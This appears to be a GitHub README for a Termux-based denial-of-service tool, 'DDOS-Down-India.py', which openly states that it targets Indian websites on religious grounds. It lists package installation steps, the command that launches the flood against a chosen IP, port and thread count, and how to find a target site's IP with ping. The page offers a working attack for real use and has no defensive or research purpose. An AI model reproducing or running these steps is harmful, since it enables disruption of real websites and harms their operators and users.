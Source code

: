 # DDOS
Our Target Indian Site For Respect Our Prophet Nabi Karim Sallallahu Alaihi Wasallam

#Run Or Install DDOS

```
termux-setup-storage
pkg update
pkg upgrade
pkg install git
apt install git
pkg install python
pkg install python2
pkg install python3
apt install dnsutils
python3 -m pip install --upgrade
pkg install pip2
pip2 install requests
pip2 install mechanize
python DDOS-Down-India.py -s (IP) -t 135 -p 80
python3 DDOS-Down-India.py -s (IP) -t 135 -p 80
```
(IP) = Remove () Or Enter Website IP

# How To Find IP?
Open Termux App
Example :
ping www.facebook.com
$Then Enter
Then Show Website IP

# Termux Setup Copy All Or Paste
```
termux-setup-storage
pkg update
pkg upgrade
pkg install git
apt install git
pkg install python
pkg install python2
pkg install python3
python3 -m pip install --upgrade
pkg install pip
pkg install pip2
pip2 install requests
pip2 install mechanize
pkg install ruby
gem install lolcat
pkg install lolcat
pip install lolcat
pip2 install lolcat
pip install bs4
pip install futures
pip2 install mechanize bs4 lolcat
```
